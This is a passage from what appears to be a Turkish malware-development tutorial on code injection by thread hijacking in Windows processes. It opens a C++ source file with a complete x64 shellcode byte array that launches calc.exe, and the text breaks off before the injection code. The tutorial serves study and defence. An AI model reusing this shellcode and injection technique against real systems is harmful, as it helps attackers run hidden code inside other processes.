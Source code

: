\newpage
\subsection{16. Thread hijacking ile kod enjeksiyonu. Basit C++ zararlı yazılım.}

﷽

![thread hijacking](./images/24/2021-11-23_21-51.png){width="80%"}    

### bu ne anlama geliyor?

Bugün, uzaktaki bir sürece thread hijacking (iş parçacığı ele geçirme) yöntemiyle kod enjeksiyonunu anlatacağım. Bu, yeni bir uzak iş parçacığı oluşturmak yerine mevcut iş parçacıklarını ele geçirerek kod enjekte etmeyi içerir. Kod enjeksiyonu yöntemlerinden biri, bir yürütülebilir kod konumunda başka bir süreçten bir iş parçacığı oluşturmak için `CreateRemoteThread` kullanmaktır, bunu daha önce [yazmıştım](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html). Veya örneğin, `CreateRemoteThread` ile `LoadLibrary` işlevini çalıştırarak ve `CreateRemoteThread` içinde bir argüman geçirerek klasik DLL enjeksiyonu yapılabilir. Bu [teknik](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) hakkındaki yazımı bulabilirsiniz.

### Örnek

Bu tekniği gösteren bir örneğe bakalım:     

```cpp
/*
hack.cpp
code injection via thread hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/23/malware-injection-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
```